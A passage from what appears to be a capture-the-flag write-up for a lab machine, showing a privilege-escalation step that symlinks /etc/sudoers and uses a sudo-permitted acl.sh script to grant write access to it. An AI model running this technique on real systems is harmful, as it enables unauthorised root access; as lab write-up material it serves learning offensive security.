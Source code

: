 <p align = "center">
    <img src="assets/img/writeupImgs/permx/1_PR6uc4gbwr6SLn3ri1CYXA.webp" width="700"
    alt="Descripción">
</p>

Now, we just need a way of using acl.sh to escalate privileges. First, lets see what acl.sh does.

<p align = "center">
    <img src="assets/img/writeupImgs/permx/1_EyUq65dwdHvkCJuWI5NrbA.webp" width="700"
    alt="Descripción">
</p>

This script is used to change permission of a file, so we can use it to change the permission of /etc/sudoers to give us sudo permissions.

We can achive this by creating a file and giving it a symbolic link to /etc/sudoers.

```bash
ln -s /etc/sudoers figueron
sudo /opt/acl.sh mtz rw /home/mtz/figueron
``` 
